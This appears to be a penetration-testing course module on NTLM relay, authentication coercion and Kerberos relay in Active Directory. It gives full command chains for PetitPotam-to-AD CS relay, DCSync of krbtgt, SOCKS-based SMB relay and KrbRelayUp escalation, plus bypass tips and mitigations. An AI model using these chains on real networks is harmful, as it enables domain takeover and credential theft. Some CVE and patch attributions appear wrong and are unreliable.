

# Module 04: NTLM Relay Tradecraft & Authentication Coercion Primitives

> **Navigation**: [⬅️ Module 03: Network Poisoning](Module-03-Network-Poisoning-and-Credential-Access.md) | [🏠 Master Index](../README.md) | [Module 05: AS-REP & Kerberoasting ➡️](Module-05-Kerberos-Attacks-ASREPRoast-and-Kerberoast.md)

---


## 1. NTLM Relaying Fundamentals & The Cross-Protocol Matrix

While NetNTLMv2 hashes captured during network poisoning cannot be decrypted instantly if complex passwords are used, they can be **relayed in real time** to authenticate to secondary network services without knowing the user's password.

```
+---------------------------------------------------------------------------------------------------+
| NTLM RELAY ATTACK FLOW (MAN-IN-THE-MIDDLE)                                                        |
|                                                                                                   |
|  VICTIM CLIENT                        ATTACKER (ntlmrelayx)                  TARGET SERVER        |
|  (e.g., WS01)                         IP: 10.0.0.150                         (e.g., SVR01 / ADCS) |
|         |                                    |                                      |             |
|         | 1. NEGOTIATE (Type 1)              |                                      |             |
|         +----------------------------------->|                                      |             |
|         |                                    | 2. Relays NEGOTIATE (Type 1)         |             |
|         |                                    +------------------------------------->|             |
|         |                                    |                                      |             |
|         |                                    | 3. CHALLENGE (Type 2: Nonce)         |             |
|         |                                    |<-------------------------------------+             |
|         | 4. Relays CHALLENGE (Type 2)       |                                      |             |
|         |<-----------------------------------+                                      |             |
|         |                                    |                                      |             |
|         | 5. AUTHENTICATE (Type 3: Signature)|                                      |             |
|         +----------------------------------->|                                      |             |
|         |                                    | 6. Relays AUTHENTICATE (Type 3)      |             |
|         |                                    +------------------------------------->|             |
|         |                                    |                                      |             |
|         |                                    | 7. Access Granted! Attacker executes |             |
|         |                                    |    commands or dumps secrets!        |             |
|         |                                    |<=====================================+             |
+---------------------------------------------------------------------------------------------------+
```

### The Cross-Protocol Relay Feasibility Matrix:
Whether an NTLM authentication can be relayed depends on the source protocol, target protocol, and cryptographic signing/channel binding configurations:

| Source Protocol | Target Protocol | Feasible by Default? | Blocking Security Control / Mitigation |
| :--- | :--- | :--- | :--- |
| **SMB** | **SMB** | **Conditional** | **SMB Signing**. If the target SMB server has `RequireSecuritySignature = True`, relay fails with `STATUS_INVALID_PARAMETER`. |
| **SMB** | **LDAP** | **YES** (unencrypted) | **LDAP Signing**. By default, LDAP signing is not enforced on Windows Server. Relaying works if channel binding is absent. |
| **SMB** | **LDAPS (Port 636)**| **Conditional** | **LDAP Channel Binding Tokens (CBT)**. Enforced via `LdapEnforceChannelBinding = 2`. |
| **SMB** | **HTTP / AD CS** | **YES (High Impact)** | **Extended Protection for Authentication (EPA)**. AD CS Web Enrollment (`/certsrv`) is vulnerable by default. |
| **HTTP** | **LDAP / LDAPS** | **YES** | WebDAV coercion allows relaying directly into LDAP even when SMB-to-LDAP is mitigated! |
| **HTTP** | **SMB** | **YES** | If SMB Signing is disabled on target. |

---

## 2. Impacket `ntlmrelayx.py`: Deep Architecture & Command Flags

`ntlmrelayx.py` is the industry-standard engine for capturing, parsing, modifying, and relaying NTLM handshakes across network protocols.

```bash
# Syntax:
impacket-ntlmrelayx -t <target> [flags]
```

### Complete Command Flag Breakdown:
| Flag | Long Argument | Operational Purpose & Real-World Tradecraft |
| :--- | :--- | :--- |
| **`-t`** | `--target` | Target to relay to (e.g., `smb://10.0.0.20`, `ldap://10.0.0.1`, `http://ca.corp.local/certsrv/certfnsh.asp`). |
| **`-tf`** | `--targets-file` | Path to a text file containing a list of target IPs/URLs for multi-target relaying. |
| **`-smb2support`** | `--smb2support` | **Mandatory**. Enables negotiation of SMBv2 and SMBv3 dialects (required for modern Windows 10/11/Server). |
| **`-socks`** | `--socks` | **Critical**. Instead of executing a one-time command, holds every successful relayed authentication alive in an interactive SOCKS4/5 proxy server on port `1080`. |
| **`-l`** | `--lootdir` | Directory where dumped SAM hashes, LSA secrets, or retrieved certificates are saved automatically. |
| **`-c`** | `--command` | Shell command to execute on target SMB hosts upon successful relay (e.g., launching an unprivileged beacon). |
| **`-e`** | `--execute` | Path to an executable binary to upload and execute as a service on target SMB hosts. |
| **`--escalate-user`** | `--escalate-user` | In LDAP relay: Adds the specified low-privilege domain user to privileged groups (e.g., Domain Admins). |
| **`--delegate-access`** | `--delegate-access` | In LDAP relay: Automatically configures **Resource-Based Constrained Delegation (RBCD)** on the target computer account. |
| **`--adcs`** | `--adcs` | In HTTP relay: Flags the target as an Active Directory Certificate Services (AD CS) enrollment endpoint. |
| **`--template`** | `--template` | In AD CS relay: Specifies the certificate template to enroll (defaults to `Machine` or `DomainController`). |

---

## 3. Authentication Coercion Primitives (Forcing High-Value Targets to Authenticate)

In a penetration test or red team engagement, attackers do not simply wait for a Domain Administrator to browse a share. They utilize **Remote Procedure Call (RPC) Coercion Primitives** to force Domain Controllers and high-value servers to initiate an outbound NTLM authentication to the attacker's listener.

```
+-----------------------------------------------------------------------------------+
| COMPARATIVE ANALYSIS OF COERCION PRIMITIVES                                        |
+-----------------------------------------------------------------------------------+
| Primitive Name    | RPC Interface / Protocol       | Vulnerable Function          |
+-----------------------------------------------------------------------------------+
| **PetitPotam**    | MS-EFSR (Encrypting File       | EfsRpcOpenFileRaw            |
| (CVE-2021-36942)  | System Remote Protocol)        | EfsRpcEncryptFileSrv         |
+-----------------------------------------------------------------------------------+
| **PrinterBug**    | MS-RPRN (Print System Remote   | RpcRemoteFindFirstPrinter    |
| (SpoolSample)     | Protocol)                      | ChangeNotificationEx         |
+-----------------------------------------------------------------------------------+
| **ShadowCoerce**  | MS-FSRVP (File Server Remote   | IsPathSupported              |
| (CVE-2022-30154)  | VSS Protocol)                  | IsPathShadowCopied           |
+-----------------------------------------------------------------------------------+
| **DFSCoerce**     | MS-DFSNM (Distributed File     | NetrDfsAddStdRoot            |
| (CVE-2022-26925)  | System Namespace Management)   | NetrDfsRemoveStdRoot         |
+-----------------------------------------------------------------------------------+
```

### Detailed Coercion Mechanics:

#### 1. PetitPotam (MS-EFSR):
Exploits Microsoft's Encrypting File System RPC interface over named pipe `\pipe\efsrpc` (or `\pipe\lsarpc`).
* **Command Syntax**:
  ```bash
  python3 PetitPotam.py -u 'jdoe' -p 'Pass123!' -d 'corp.local' 10.0.0.150 10.0.0.1
  # Arguments: <ATTACKER_LISTENER_IP> <TARGET_DC_IP>
  ```
* **Impact**: Forces the target Domain Controller computer account (`DC01$`) to establish an SMB/HTTP connection to `10.0.0.150` and authenticate using NTLM.

#### 2. PrinterBug / SpoolSample (MS-RPRN):
Exploits the Print Spooler service (`spoolsv.exe`) which runs by default on all Windows Server installations.
* **Mechanism**: When a client calls `RpcRemoteFindFirstPrinterChangeNotificationEx()`, it registers a notification handle and passes an arbitrary UNC path (`\\10.0.0.150\pipe\dummy`). The Print Spooler on the target machine immediately connects to the UNC path to deliver the notification, authenticating as `SYSTEM` (`MACHINE$`).
* **Command Syntax**:
  ```bash
  python3 dementor.py -u 'jdoe' -p 'Pass123!' -d 'corp.local' 10.0.0.150 10.0.0.1
  ```

#### 3. Coercer (Multi-Protocol Automation):
Instead of running individual scripts, `coercer` systematically probes every known RPC UUID and function:
```bash
coercer coerce -u 'jdoe' -p 'Pass123!' -d 'corp.local' -l 10.0.0.150 -t 10.0.0.1
```

---

## 4. Master Operational Attack Chains

### Attack Chain A: The Complete Forest Takeover via PetitPotam + AD CS ESC8 Relay

This is one of the most devastating attack paths in Active Directory history, allowing an unprivileged domain user to achieve Domain Admin in under 2 minutes.



#### Exact Field Execution Commands:
```bash
# Terminal 1: Set up the NTLM Relay listener targeting the CA Web Enrollment endpoint
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs --template DomainController -smb2support

# Terminal 2: Coerce the Domain Controller using PetitPotam
python3 PetitPotam.py -u 'jdoe' -p 'Summer2024!' -d 'corp.local' 10.0.0.150 10.0.0.1

# (ntlmrelayx generates 'dc01.pfx' base64 certificate bundle)

# Terminal 3: Convert certificate and request TGT / NT Hash via PKINIT
certipy auth -pfx dc01.pfx -dc-ip 10.0.0.1

# Terminal 4: Execute DCSync using the dumped DC01$ machine hash
impacket-secretsdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'corp.local/DC01$@10.0.0.1' -just-dc-user krbtgt
```

---

### Attack Chain B: SMB Relay with Interactive SOCKS Proxy Table

When relaying to internal member servers where SMB Signing is disabled, operators use the `-socks` flag to maintain persistent authenticated sessions.

```bash
# 1. Discover all network hosts with SMB Signing Disabled using NetExec:
nxc smb 10.0.0.0/24 --gen-relay-list smb_targets.txt

# 2. Launch ntlmrelayx with SOCKS support:
impacket-ntlmrelayx -tf smb_targets.txt -socks -smb2support

# 3. Trigger network traffic (Responder LLMNR/NBT-NS or network coerce)

# 4. Access the interactive SOCKS console inside ntlmrelayx:
ntlmrelayx> socks
Protocol  Target          Username      AdminStatus  Port
--------  --------------  ------------  -----------  ----
SMB       10.0.0.22       CORP/SRVADMIN TRUE         445
SMB       10.0.0.25       CORP/BJOHNSON FALSE        445

# 5. Route administrative tools through proxychains (port 1080):
proxychains impacket-secretsdump -no-pass 'CORP/SRVADMIN@10.0.0.22'
proxychains impacket-smbexec -no-pass 'CORP/SRVADMIN@10.0.0.22'
```

---

### Attack Chain C: Local Kerberos Relaying & KrbRelayUp (Local Privilege Escalation)

While traditional NTLM relay attacks require network-level traffic and fail when SMB signing is enforced, **Local Kerberos Relaying** (developed by Dec0ne, building on James Forshaw's research) allows an unprivileged local attacker to achieve **SYSTEM** on a workstation or member server using Kerberos authentication alone.

```
+-----------------------------------------------------------------------------------------+
| LOCAL KERBEROS RELAY & KRBRELAYUP MECHANICS                                              |
|                                                                                         |
|  LOCAL WORKSTATION (WS01)                                      DOMAIN CONTROLLER (DC)   |
|  Attacker: lowpriv (Local Standard User)                       IP: 10.0.0.1             |
|                                                                                         |
|  1. Attacker starts local rogue listener on 127.0.0.1                                   |
|  2. Coerces local SYSTEM via DCOM / RPC (e.g. IStorage / OXID)                          |
|     Forces SYSTEM to authenticate to 127.0.0.1 using KERBEROS!                          |
|                                                                                         |
|  3. Attacker captures SYSTEM's Kerberos AP-REQ ticket                                   |
|  4. Relays Kerberos AP-REQ to DC LDAP (Port 389/636)!                                   |
|     Authenticated to AD as WS01$ (Machine Account)!                                     |
|                                                                                         |
|  5. Relayed session writes RBCD to WS01$ in AD:                                         |
|     Sets msDS-AllowedToActOnBehalfOfOtherIdentity = Attacker Controlled Machine         |
|     (Or writes Shadow Credentials via msDS-KeyCredentialLink)                           |
|                                                                                         |
|  6. Attacker executes S4U2self & S4U2proxy -> Requests Administrator ticket for WS01    |
|  7. Injects ticket into session -> Instant Local SYSTEM Privilege Escalation!           |
+-----------------------------------------------------------------------------------------+
```

#### Operational Execution with KrbRelayUp:
```powershell
# Automated end-to-end local escalation via KrbRelayUp:
.\KrbRelayUp.exe relay -Domain corp.local -ComputerName "WS01"

# Or manual execution with KrbRelay and Rubeus:
# Terminal 1: Start KrbRelay listening for LDAP relay
.\KrbRelay.exe -spn ldap/dc01.corp.local -clsid {90f18417-f0f1-484e-9d3c-59dceee5dbd8} -rbcd

# Terminal 2: Obtain ticket via S4U and elevate to SYSTEM
.\Rubeus.exe s4u /user:ATTACKCOMP$ /rc4:<hash> /impersonate:Administrator /msdsspn:host/ws01.corp.local /ptt
```

* **Why it Bypasses Traditional Controls**:
  - Requires **zero external network access**; executes entirely on the local loopback interface.
  - Immune to SMB Signing enforcement because it relays to **LDAP / LDAPS**.
  - Evades NTLM-disablement policies because it operates entirely over **Kerberos**.

---

## 5. Field Operator Troubleshooting & Error Scenarios

```
+---------------------------------------------+------------------------------------+---------------------------------------+
| Observed Error / Status Code                | Technical Root Cause               | Operator Troubleshooting & Bypass     |
+---------------------------------------------+------------------------------------+---------------------------------------+
| STATUS_INVALID_PARAMETER (0xc000000d)       | Target server enforces SMB Signing | Relaying to SMB is cryptographically  |
| "Message signing is required"               | (RequireSecuritySignature = True). | impossible. Switch target to LDAP     |
|                                             |                                    | (ldap://) or HTTP ADCS (http://).     |
+---------------------------------------------+------------------------------------+---------------------------------------+
| HTTP 401 Unauthorized during AD CS relay    | Target IIS server enforces EPA     | Relaying over plain HTTP blocked. If  |
|                                             | (Extended Protection for Auth) or  | WebDAV service is active, coerce via  |
|                                             | Channel Binding Tokens (CBT).      | WebDAV UNC path (\\ip@80\share).      |
+---------------------------------------------+------------------------------------+---------------------------------------+
| STATUS_ACCESS_DENIED (0xc0000022)           | Relaying back to the SAME machine  | Microsoft patched local loopback      |
|                                             | that initiated the connection      | reflection (MS08-067 / MS16-075).     |
|                                             | (Reflection attack).               | Relay MUST be Cross-Host (A -> B).    |
+---------------------------------------------+------------------------------------+---------------------------------------+
| LDAP_STRONG_AUTH_REQUIRED (0x8)             | Domain Controller enforces LDAP    | Switch relay target to LDAPS (636)    |
| "Strong authentication is required"         | signing policy.                    | with --channel-binding or target ADCS.|
+---------------------------------------------+------------------------------------+---------------------------------------+
```

---

## 6. Enterprise Defensive Hardening & Mitigation

### 1. Enforcing SMB Signing Domain-Wide:
SMB relay is completely eradicated by enforcing SMB signing on **all workstations and servers**:
* Group Policy Location:
  `Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options`
* Set **Microsoft network client: Digitally sign communications (always)** = `Enabled`.
* Set **Microsoft network server: Digitally sign communications (always)** = `Enabled`.

### 2. Disabling the Print Spooler on Domain Controllers:
Domain Controllers have zero operational need to print documents. Stop and disable `spoolsv.exe`:
```powershell
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```

### 3. Enforcing EPA and Removing HTTP Endpoints on AD CS:
* In IIS Manager on the CA server, navigate to `/certsrv`.
* Under **Authentication -> Advanced Settings**, set **Extended Protection** to **Required**.
* Disable plain HTTP bindings on the CA; require HTTPS with SSL certificate pinning.


---

> **Navigation**: [⬅️ Module 03: Network Poisoning](Module-03-Network-Poisoning-and-Credential-Access.md) | [🏠 Master Index](../README.md) | [Module 05: AS-REP & Kerberoasting ➡️](Module-05-Kerberos-Attacks-ASREPRoast-and-Kerberoast.md)
